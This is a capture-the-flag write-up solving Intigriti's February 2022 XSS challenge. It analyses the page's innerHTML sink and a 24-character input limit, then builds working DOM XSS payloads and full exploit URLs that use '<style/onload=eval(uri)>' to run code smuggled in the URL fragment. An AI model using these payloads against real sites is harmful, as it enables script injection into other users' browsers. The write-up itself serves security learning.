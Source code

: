 ```yaml
---
grand_parent: Write-ups
parent: 2022
title: February
nav_order: 1
---
```


## Write-up

### Challenge Analysis

Inspecting the [source](view-source:https://challenge-0222.intigriti.io/challenge/xss.html) of this challenge, we are greeted with a straightforward looking code.

```html
<script>
  window.name = 'XSS(eXtreme Short Scripting) Game'

  function showModal(title, content) {
    var titleDOM = document.querySelector('#main-modal h3')
    var contentDOM = document.querySelector('#main-modal p')
    titleDOM.innerHTML = title
    contentDOM.innerHTML = content
    window['main-modal'].classList.remove('hide')
  }

  window['main-form'].onsubmit = function(e) {
    e.preventDefault()
    var inputName = window['name-field'].value
    var isFirst = document.querySelector('input[type=radio]:checked').value
    if (!inputName.length) {
      showModal('Error!', "It's empty")
      return
    }

    if (inputName.length > 24) {
      showModal('Error!', "Length exceeds 24, keep it short!")
      return
    }

    window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
  }

  if (location.href.includes('q=')) {
    var uri = decodeURIComponent(location.href)
    var qs = uri.split('&first=')[0].split('?q=')[1]
    if (qs.length > 24) {
      showModal('Error!', "Length exceeds 24, keep it short!")
    } else {
      showModal('Welcome back!', qs)
    }
  }
</script>
```

It looks like our [sink](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss) is in the `showModal(title, content)` function as it places both `title` and `content` arguments into the `innerHTML` sink.

Tracing from sink to source, we see that there is only 1 occurrence where we could control the arguments being used in a function call to `showModal(title, content)`, which is in the last `if` code block:

```js
if (location.href.includes('q=')) {
  var uri = decodeURIComponent(location.href)
  var qs = uri.split('&first=')[0].split('?q=')[1]
  if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
  } else {
    showModal('Welcome back!', qs)
  }
}
```

Notice that in order to enter the outer `if` block, our URL must contain the string `q=`. The full URL is then passed into [decodeURIComponent()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/decodeURIComponent) and stored into the `uri` variable. Then, the variable `qs` would store the string contained inside the HTTP parameter `q`. A check is made at the inner `if` block to ensure that the length of `qs` does not exceed **24** characters. Finally, `qs` is used in a function call to `showModal(title, content)`, meaning that the content stored in `qs` will be used in `innerHTML`.

**Other than the length restriction, it looks like this is the path to achieve DOM XSS.**

---

### Crafting the Solution

With only **24** characters to work with, we had to find a short DOM XSS payload. Since this is DOM XSS, we will not be able to use payloads like `<script>alert(document.domain)</script>` since the page would have already been rendered (also that the payload length is too long!).

Looking up "short XSS payloads" gives us the following [repo](https://github.com/terjanq/Tiny-XSS-Payloads) prepared by terjanq. The first few payloads all made use of `<svg/onload...>` so let's try it out the payload `<svg/onload=alert(1)>`:

<img src="images/1.png">

Nice, the alert pops but this is not our goal. We have to somehow display the `document.domain` in our alert. 🤔 Our current payload is already **21** characters long!

Going back to the source code, we observe that there is a JavaScript variable defined that we could use in our payload. Here's a hint: it can be found within the last code snippet above.

...

By making use of the `uri` variable, we could simply add our payload into the URL (which would bypass the length restriction) and then call `eval()` on it. Let's try the payload `<svg/onload=eval(uri)>` (**22** characters) and also appending `#alert(document.domain)` to our URL:

<img src="images/2.png">

Syntax error! Let's inspect how the payload played out:

<img src="images/3.png">

Looks like calling `eval()` on the entire URL as it is was not a good idea. Remember how `uri` is storing the URL-decoded string? We could insert URL-encoded special characters such as new lines into our URL which would get decoded. Inserting a new line character (`%0A`) before our `alert(document.domain)` in the URL, our URL now looks like:

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Csvg/onload=eval(uri)%3E&first=yes#%0aalert(document.domain)
```

<img src="images/4.png">

It works! ... but only on Chrome. The challenge states that our payload must work on both Chrome and Firefox latest versions.

<img src="images/5.png">

Further [research](https://portswigger.net/web-security/cross-site-scripting/dom-based) showed that:

> The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements.

... which is odd seeing that our `svg onload` payload worked on Chrome 🤔

Nonetheless, we went back to the small XSS payloads repo and found that we could use the `style` tag instead, which would bump up our payload to **24** characters long: `<style/onload=eval(uri)>`.

The final URL is now:

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=yes#%0aalert(document.domain)
```

**Chrome**

<img src="images/6.png">

**Firefox**

<img src="images/7.png">

Minified URL: 

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=%0Aalert(document.domain)
```

---

## Further Reading
1. [https://portswigger.net/web-security/cross-site-scripting/dom-based](https://portswigger.net/web-security/cross-site-scripting/dom-based)
2. [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss)
3. [https://github.com/terjanq/Tiny-XSS-Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)
